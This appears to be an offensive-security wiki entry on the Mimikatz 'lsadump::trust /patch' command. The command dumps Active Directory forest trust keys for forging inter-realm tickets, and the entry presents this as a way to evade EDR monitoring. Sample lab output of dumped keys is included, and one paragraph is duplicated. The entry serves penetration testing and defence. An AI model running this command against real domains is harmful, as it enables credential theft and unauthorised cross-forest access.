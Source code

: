 # trust

`lsadump::trust` can be used for dumping the forest trust keys. Forest trust keys can be leveraged for forging inter-realm trust tickets. Since most of the EDRs are paying attention to the KRBTGT hash, this is a stealthy way to compromise forest trusts.

It can be used for dumping the forest trust keys. Forest trust keys can be leveraged for forging inter-realm trust tickets. Since most of the EDRs are paying attention to the KRBTGT hash, this is a stealthy way to compromise forest trusts.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # lsadump::trust /patch

Current domain: CORP.LAB.LOCAL (corp / S-1-5-21-1874506631-3219952063-538504511)

Domain: EXTERNAL.LOCAL (external / S-1-5-21-280534878-1496970234-700767426)
 [  In ] CORP.LAB.LOCAL -> EXTERNAL.LOCAL
        * aes256_hmac       6994cc6cd1b99bd3869685d14af347e955e9e043f2116ca1665f371efe48fab6
        * aes128_hmac       feeeb865b37c281b21cfa00aee1da71b
        * rc4_hmac_nt       6f9e27669d07b6c7f539c5f6e7fd9f57

 [ Out ] EXTERNAL.LOCAL -> CORP.LAB.LOCAL
        * aes256_hmac       f3417d40bb3e6f2c585e0cb00cf36444b6ebf293407103ca25d8b0650219d82d
        * aes128_hmac       8687ec2ba8ec3e8d8c6e89e94b87792c
        * rc4_hmac_nt       d3b3645b2c8efd19794dfae2dfa6946e

 [ In-1] CORP.LAB.LOCAL -> EXTERNAL.LOCAL
        * aes256_hmac       cec1143242386747b41ea21b071bfa2b211c184699c57cc69bd3f43da57bfef6
        * aes128_hmac       8668ebdcb5b9349b6c279ca9cd421a60
        * rc4_hmac_nt       4a49505568b59490b41724ce676978e5

 [Out-1] EXTERNAL.LOCAL -> CORP.LAB.LOCAL
        * aes256_hmac       9304fef5575424542d1c6cdda1920927cb55df8c203079b51e4e2cfc1cab0d4b
        * aes128_hmac       4cc55daa23d585257ab877914ea42968
        * rc4_hmac_nt       a2639f30fa151b45696631b80f57f4e6
```
